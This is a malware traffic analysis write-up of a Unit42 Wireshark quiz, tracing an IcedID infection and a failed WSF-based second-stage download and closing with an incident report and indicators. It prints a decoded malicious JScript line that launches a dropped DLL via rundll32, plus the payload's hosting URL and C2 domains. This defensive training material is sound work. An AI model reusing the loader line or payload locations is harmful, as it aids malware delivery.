




# Malware Traffic Analysis  - Unit42 Quiz - April 2023

PCAP: https://github.com/pan-unit42/Wireshark-quizzes/raw/main/2023-04-Unit42-Wireshark-quiz.pcap.zip

## Situation

Unknown. I pulled the above PCAP on 2023-04-21, but no assocated Quiz post from Unit42 or @malware_traffic has
been posted to this point. As a result, I'm just going to examine the PCAP as best I can - mainly
from the command line - and establish what I think is occuring.

## Methodology

Brad ([@malware_traffic](https://twitter.com/malware_traffic)) has been publishing Wireshark [quizes
and tutorials](https://www.malware-traffic-analysis.net/training-exercises.html) for some time now. 
For 2023, he has moved most of these quizzes to the [Unit42 Blog](https://unit42.paloaltonetworks.com/).

In general, the quizzes are designed to provide security professionals the opportunity 
to analyze network traffic created by various malware families in a controlled environment.
The tool of choice is, of course, Wireshark, but I have recently been using several other tools
to examine the pcaps.

- [tcpdump](https://linux.die.net/man/8/tcpdump) - dump traffic on a network
- [RITA](https://github.com/activecm/rita) - Real Intelligence Threat Analytics by [Active Countermeasures](https://www.activecountermeasures.com/free-tools/rita/)
- [zeek](https://zeek.org/) - Network Security Monitoring tool
- [suricata](https://suricata.io/) - Threat detection software

To that end, I will continue that here with the April quiz, and maybe spin up Active Countermeasures'
[Community Edition of AC-Hunter](https://www.activecountermeasures.com/ac-hunter/) to examine the pcap as well.

## Understanding the PCAP

First thing is to understand the pcap we are working with. In this case, `capinfos`
can give us a basic overview of the pcap.

```bash
File name:           2023-04-Unit42-Wireshark-quiz.pcap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  Ethernet
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 65535 bytes
Number of packets:   43 k
File size:           23 MB
Data size:           22 MB
Capture duration:    21368.885873 seconds
First packet time:   2023-04-19 15:26:28.098379
Last packet time:    2023-04-19 21:22:36.984252
Data byte rate:      1,069 bytes/s
Data bit rate:       8,554 bits/s
Average packet size: 519.89 bytes
Average packet rate: 2 packets/s
SHA256:              7960688a0f556ae5ed44e66621dc65b5d34982e70ec0a24c517ed7e82e13e564
RIPEMD160:           ef3fa49dc0987cb2ad2ea003ea800c067a119464
SHA1:                234c35b84cc28952eb8666f6547c028046165822
Strict time order:   True
Number of interfaces in file: 1
Interface #0 info:
                     Encapsulation = Ethernet (1 - ether)
                     Capture length = 65535
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Number of stat entries = 0
                     Number of packets = 43949
```
From this we can quickly see the number of packets captured (43949), and the time range
for the capture itself (converted to UTC): 2023-04-19 15:26 - 21:22. Roughly a six hour
packet capture in this environment.

## Making Sense of the Network

The next thing to establish is roughly what the network looks like, and the services
that may be on offer internally. In Wireshark we can quickly navigate to the statistics tab
and gather much of this information. With command line tools this takes a bit more manual work,
but can also be scripted for use on much larger packet capture files.

```bash
$ tcpdump -r quiz.pcap -nt | head
```

A quick look at the first few packets gives a general sense of the basics of this network:

- Network CIDR: 10.4.19.0/24
- Domain Controller: 10.4.19.19
- User Host: 10.4.19.136, 10.4.19.138, 10.4.19.143

The Domain Controller and User hosts are based on my educated guess that this is a Windows Active Directory environment,
which is typical for these challenges and makes sense for most malware.

Now, we can check more details on the services being offered in the network:

```bash
$ tcpdump -r quiz.pcap -nt 'src host 172.16.1 and tcp[13] = 0x12'
```

This command will output all SYN-ACK packets being sent FROM our internal network.
We can focus on the service ports with a bit of command line kung fu:

```bash
$ tcpdump -ntr 2023-04-Unit42-Wireshark-quiz.pcap 'src net 10.4.19.0/24 and tcp[13]&0x3f=0x12' | cut -f 2 -d' ' | cut -d'.' -f5| sort|uniq -c | sort -nr
    
    129 389
     91 88
     86 445
     69 135
     66 49669
     12 49684
     11 139
      6 53
```
We can see fairly normal service offerings for a Windows domain within this list of ports.
Keberos (88), LDAP (389), SMB (445), and RCP (135). Nothing really unusual here, but now we can find out
more information about the domain by examining the SMB traffic and LDAP traffic closely.

```bash
$ tcpdump -ntr quiz.pcap 'src host 172.16.1.16 and tcp port 139' -X
```

The `-X` option with `tcpdump` will gives us the bytes and an ASCII representation of those
bytes from the packet. In this case, I am trying to determine the domain the network is using, and any other useful information:



- Domain: boogienights.live
- DC Hostname: boogienights-DC
- DC Version: Windows Server 2022
- DC MAC: 00:21:5A:86:39:8F

Some additional details on the user workstation:

- User host: 10.4.19.136
- User MAC: 14:58:D0:2E:C5:AE
- User Host name: DESKTOP-SFF9LJF
- Username: csilva

- Host: 10.4.19.138
- MAC: 00:90:27:CD:92:90
- Host name: DESKTOP-W8FZEMQ
- User: irichardson

Other workstation:

- Host: 10.4.19.143
- MAC: 00:02:A5:7C:61:08
- Host name: DESKTOP-JAL4D68

Most of the above can be found parsing either the NBNS traffic found in the capture, or the kerberos
authentication traffic - which is what I did in this case with `tcpdump`.

```bash
$ tcpdump -ntr quiz.pcap 'host 172.16.1.137 and port 88' -X | less -S
```

## Understanding Connections

We can quickly see which of our hosts are communicating to the internet with `tcpdump`:

```bash
$ tcpdump -ntr 2023-04-Unit42-Wireshark-quiz.pcap 'not dst net 10.4.19.0/24' | cut -f 2 -d' '|cut -f 1-4 -d'.' | sort | uniq -c

   6004 10.4.19.136
   4325 10.4.19.138
```

So we only have two of our local hosts communicating with the internet. Now, what are they talking to?

```bash
$ tcpdump -ntr 2023-04-Unit42-Wireshark-quiz.pcap 'not dst net 10.4.19.0/24' | cut -f 4 -d' '|cut -f 1-4 -d'.' | sort | uniq -c| sort -nr

    843 204.79.197.200
    568 217.199.121.56
    551 104.168.53.18
    501 204.79.197.203
    439 20.242.39.171
    400 23.218.232.178
    334 173.223.109.212
    332 23.47.50.132
    319 51.104.167.186
    243 209.197.3.8
    187 23.221.220.58
    182 13.89.179.8
    177 13.107.21.200
    174 224.0.0.251
    145 204.79.197.239
    143 20.83.81.164
    141 20.54.25.4
    128 51.104.162.168
    113 13.89.179.10
    109 72.21.81.240
    105 193.149.176.100
    100 142.251.32.234
     98 40.83.247.108
     97 204.79.197.222
     96 20.166.126.56
     83 13.91.16.64
     76 20.191.46.109
     69 72.21.81.200
     ...
```

```bash
$ tcpdump -ntr 2023-04-Unit42-Wireshark-quiz.pcap 'not dst net 10.4.19.0/24' | cut -f 4 -d' '| sed 's/:$//' | cut -f 5 -d'.' | sort | uniq -c| sort -nr
reading from file 2023-04-Unit42-Wireshark-quiz.pcap, link-type EN10MB (Ethernet), snapshot length 65535
   8734 443
   1327 80
    174 5353
     58 1900
     26
      9 111
      1 5355
```

Between these two commands we can see the bulk of our external communication takes place over
ports 443 and 80 - meaning HTTP and HTTPs most likely. Additionally, we have some 
external traffic going to port 5353, 1900, 111, and 5355 - but not much.

Now lets check out some of this HTTP traffic.

```bash
$ tcpdump -ntr 2023-04-Unit42-Wireshark-quiz.pcap 'not dst net 10.4.19.0/24 and tcp port 80' | cut -f 4 -d' ' | cut -f 1-4 -d'.' | sort | uniq -c | sort -nr

    400 23.218.232.178
    332 23.47.50.132
    243 209.197.3.8
    109 72.21.81.240
     40 192.153.57.233
     28 23.36.63.240
     26 20.231.121.79
     24 23.214.44.116
     14 23.38.185.137
      8 8.253.197.120
      7 8.252.77.126
      7 8.240.45.126
      7 23.64.117.54
      7 23.64.117.49
      7 23.47.50.57
      7 23.47.48.151
      7 23.218.232.159
      7 23.218.232.146
      7 23.205.110.13
      7 104.92.18.109
      6 80.77.25.175
      6 66.29.147.117
      6 54.145.90.68
      6 192.229.211.108
      5 85.239.53.73
      2 23.218.232.165
      2 23.218.232.140
```

And the same for HTTPs:

```bash
 tcpdump -ntr 2023-04-Unit42-Wireshark-quiz.pcap 'not dst net 10.4.19.0/24 and tcp port 443' | cut -f 4 -d' ' | cut -f 1-4 -d'.' | sort | uniq -c | sort -nr
    843 204.79.197.200
    568 217.199.121.56
    551 104.168.53.18
    501 204.79.197.203
    439 20.242.39.171
    334 173.223.109.212
    319 51.104.167.186
    187 23.221.220.58
    182 13.89.179.8
    177 13.107.21.200
    145 204.79.197.239
    143 20.83.81.164
    141 20.54.25.4
    128 51.104.162.168
    113 13.89.179.10
    105 193.149.176.100
    100 142.251.32.234
     98 40.83.247.108
     97 204.79.197.222
     96 20.166.126.56
     83 13.91.16.64
     76 20.191.46.109
     69 72.21.81.200
     69 20.54.24.231
     66 52.185.211.133
     66 20.189.173.5
     63 52.113.194.132
     63 51.11.168.232
     63 20.191.46.211
     62 23.221.220.77
     61 142.250.113.94
     54 20.242.220.11
     53 23.221.22.219
     53 20.54.24.69
     51 52.137.108.250
     48 52.137.106.217
     48 152.199.24.163
     47 23.221.220.68
     47 20.189.173.15
     47 13.64.180.106
     47 13.107.237.254
     46 13.107.5.88
     46 13.107.42.16
     42 40.119.249.228
     41 40.79.141.154
     41 23.37.112.211
     41 23.221.220.60
     41 20.42.65.90
     40 20.99.185.48
     ...more...
```

From this we can already see our 'Top Talkers' for HTTP/s traffic, and can explore them in more detail.

Switching tools to `zeek`, we can examine the dns traffic a little more easily to see anything
unusual before continuing.



In the above image, I have highlighted the *interesting* domains. Now we can grab the IP addresses for these domains.

- cotecsecuritygroup[.]com: 66.29.147[.]117
- skansnekssky[.]com: 217.199.121.56
- skigimeetroc[.]com: 192.153.57[.]233
- spakernakurs[.]com: 104.168.53[.]18

Comparing these with what we have for top talkers, we find all of these IP addresses in either the HTTP or
HTTPs traffic. Looking at all traffic over port 80 involving host 10.4.19.136 we find it initially
downloads a file from a Microsoft IP before issuing a `GET` request to IP (no DNS resolution) 80.77.25[.]175 to the
URI `/main.php`. This is redirected to Google drives to download a ZIP archive named `Scan_Inv.zip`. This occurs at 15:31 UTC.


- Redirection URL:  https[:]//firebasestorage.googleapis.com/v0/b/serene-cathode-377701.appspot.com/o/XSjwp6O0pq%2FScan_Inv.zip?alt=media&token=a716bdce-1373-44ed-ae89-fdabafa31c61

After this redirection, and likely ZIP archive download, the host likely executed additional
malware on their system. At 15:36 we see Victim 10.4.19.136 begin communicating with
`askamoshopsi[.]com` at IP 104.168.53[.]18. The certificate used for this HTTPs
communication is self-signed, and that domain is associated with ICEDID C2.


At the same time, this victim also begins communicating with `skansnekssky[.]com` at IP 
217.199.121[.]56. This also uses a self-signed certificate to encrypt the communication. When
we look at this communication in `rita` we see this communication meets beaconing behavior, as well
as two other addresses:

```bash
 rita show-beacons april -H
+-------+-------------+----------------+-------------+------------+-------------+----------+----------+-----------+------------+-----------+
| SCORE |  SOURCE IP  | DESTINATION IP | CONNECTIONS | AVG  BYTES | TOTAL BYTES | TS SCORE | DS SCORE | DUR SCORE | HIST SCORE | TOP INTVL |
+-------+-------------+----------------+-------------+------------+-------------+----------+----------+-----------+------------+-----------+
|  0.99 | 10.4.19.136 | 217.199.121.56 |          69 |       3079 |      212519 |        1 |    0.996 |     0.963 |          1 |       302 |
| 0.815 | 10.4.19.136 | 51.104.167.186 |          25 |       5544 |      138607 |    0.578 |    0.735 |     0.946 |          1 |         0 |
| 0.554 | 10.4.19.136 | 204.79.197.203 |          32 |      16487 |      527615 |    0.485 |    0.858 |      0.87 |          0 |         0 |
+-------+-------------+----------------+-------------+------------+-------------+----------+----------+-----------+------------+-----------+
```

The other two IP addresses are associated with Microsoft, and unlikely to have been compromised.

One final note, at 15:35 the victim issues a `GET` request to `skigimeetroc[.]com` for the root
of the web directory `/`. This returns a blob of GZIP compressed data, which is likely additional malware.
`Tail.txt` is the file name for this binary blob in the traffic.

- Tail.txt - 063d71ade6d3140a608c9315fa899ce31fe3d370b57283e9cfa389a5662d6e75

### Host 10.4.19.138

Shifting to the other host we identified. At 17:17 this victim issues a `GET` request to `cotecsecuritygroup[.]com` 
at IP 66.29.147[.]117 to URI `wicd/643d0491bcea1.zip`. This downloads a ZIP archive
containing a Windows Script File named `Complaint_Copy_634917.wsf`.

- sha256: eb4db357dc6f2dd8facf132ecaf6916e7219bf0e29990601b1f4babefa4d02f9  643d0491bcea1.zip
- sha256: cdf33c52fe725357156a831245e842114abeb07cc035520604a071dbf87f0673  Complaint_Copy_634917.wsf

The Windows Script File contains a malicious script, which is shown below in the screenshot:



Decodingthe encoded data in CyberChef, we see what it is really doing:

```xml
<?xml version="1.0"?>
<package>
<component id="compid">
<script language="JScript">
<;

]]>
</script>
</component>
</package>
```

and

```xml
<?xml version="1.0"?>
<package>
<component id="compid">
<script language="JScript">
<![CDATA[

	var r = new ActiveXObject("wscript.shell").Run("rundll32 C:\\ProgramData\\aBwFudPLMOx49eb.tmp,Motd");

]]>
</script>
</component>
</package>
```

However, while this was executed on the victim, it appears to have failed to connect
to and download malware from the 85.239.53[.]73 address.



No other malicious activity is observed from this host following this failed attempt to download
a second stage malware.

## Incident Report

### Executive Summary

On 2023-04-19 at 15:31 UTC the host operated by `csilva` at IP 10.4.19.136 downloaded IcedID malware, which executed on the system and began beaconing.
At 17:17 UTC the host at IP 10.4.19.138 operated by `irichardson` downloaded a ZIP file and
executed the Windows Script File contained within, which attempted to download additional malware but failed.

### Victim Details

- User host: 10.4.19.136
- User MAC: 14:58:D0:2E:C5:AE
- User Host name: DESKTOP-SFF9LJF
- Username: csilva

- Host: 10.4.19.138
- MAC: 00:90:27:CD:92:90
- Host name: DESKTOP-W8FZEMQ
- User: irichardson

### Indicators of Compromise

=== IPs ===
- 85.239.53[.]73
- 80.77.25[.]175

=== DOMAINS ===

- cotecsecuritygroup[.]com: 66.29.147[.]117
- skansnekssky[.]com: 217.199.121.56
- skigimeetroc[.]com: 192.153.57[.]233
- spakernakurs[.]com: 104.168.53[.]18
- askamoshopsi[.]com: 104.168.53[.]18

=== FILES ===

- sha256: eb4db357dc6f2dd8facf132ecaf6916e7219bf0e29990601b1f4babefa4d02f9  643d0491bcea1.zip
- sha256: cdf33c52fe725357156a831245e842114abeb07cc035520604a071dbf87f0673  Complaint_Copy_634917.wsf
- aO03psmvt.dat
- c:\\programdata\\aBwFudPLMOx49eb.tmp
- Scan_Inv.zip
- sha256: 063d71ade6d3140a608c9315fa899ce31fe3d370b57283e9cfa389a5662d6e75 Tail.txt (gzip)
